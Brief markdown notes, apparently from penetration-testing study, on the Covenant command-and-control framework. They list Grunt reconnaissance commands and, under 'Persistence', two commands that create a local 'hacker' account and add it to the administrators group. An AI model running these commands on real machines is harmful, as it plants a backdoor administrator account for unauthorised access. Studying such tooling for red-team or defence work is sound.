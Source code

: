 # Covenant

### Covenant Terms

* Listener
* Grunt
* ???

### Covenant Grunt Commands

* `whoami` - who am I
* `Seatbelt -group=all` - get system info about everything
* `GetDomainUser` - get domain users

### Persistence

```
shellcmd net users hacker Password123! /add
```

```
shell net localgroup administrators hacker /add
```

